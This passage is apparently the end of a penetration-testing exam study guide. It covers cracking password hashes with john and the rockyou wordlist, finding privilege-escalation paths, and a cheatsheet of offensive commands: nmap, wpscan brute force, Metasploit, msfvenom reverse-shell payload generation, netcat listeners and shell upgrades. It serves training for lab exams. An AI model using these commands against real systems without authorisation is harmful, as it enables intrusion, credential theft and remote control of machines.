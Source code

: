 1. Save hash(es) to a file (`hashes.txt`). Format correctly (e.g., `username:<hash_string>`).
2. Use `john`: `sudo john --wordlist=/usr/share/wordlists/rockyou.txt --format=crypt hashes.txt` (adjust `--format` if needed, e.g., based on `$id$` prefix in hash).
3. If cracked, `su <username>`.
* **Check Running Processes/Cron Jobs:** Look for scripts or processes running as root that you might be able to influence (e.g., modifiable scripts, PATH hijacking).
* **Use Enumeration Scripts:** Linpeas (`linpeas.sh`) can automate many checks.

---

## Quick Command Cheatsheet

* **Scanning:** `nmap -sS -sV <IP>`, `nmap -Pn ...`, `dirb http://<IP> <wordlist>`
* **WordPress:** `wpscan --url <URL> -e ap,at,u`, `wpscan ... --usernames <user> --passwords <wordlist>`
* **Metasploit:** `msfconsole`, `search <term>`, `use <exploit>`, `options`, `set <option> <value>`, `run`
* **Payload Generation:** `msfvenom -p <payload> LHOST=<IP> LPORT=<port> -f <format> > <outfile>`
* **Listener:** `nc -lvnp <port>`
* **Web Server:** `python3 -m http.server <port>`
* **Shell Upgrade:** `python3 -c "import pty; pty.spawn('/bin/bash')"`
* **Privilege Escalation Checks:** `sudo -l`, `find / -perm -u=s -type f 2>/dev/null`, `ls -l /etc/passwd`, `getfacl /etc/passwd`
* **Password Cracking:** `john --wordlist=<list> --format=<fmt> <hashfile>`

**Reminders:**

* Always check attacker and target IPs (`ip a`).
* Bring wordlists: `/usr/share/wordlists/dirb/common.txt`, `/usr/share/wordlists/rockyou.txt`.
* If you modify and re-upload a file (like a shell), give it a new name to avoid caching issues (e.g., `shell_v2.elf`).
* Use `/tmp` for writing temporary files on the target.

Good luck with the exam! Focus on getting that reverse shell reliably using the steps above.

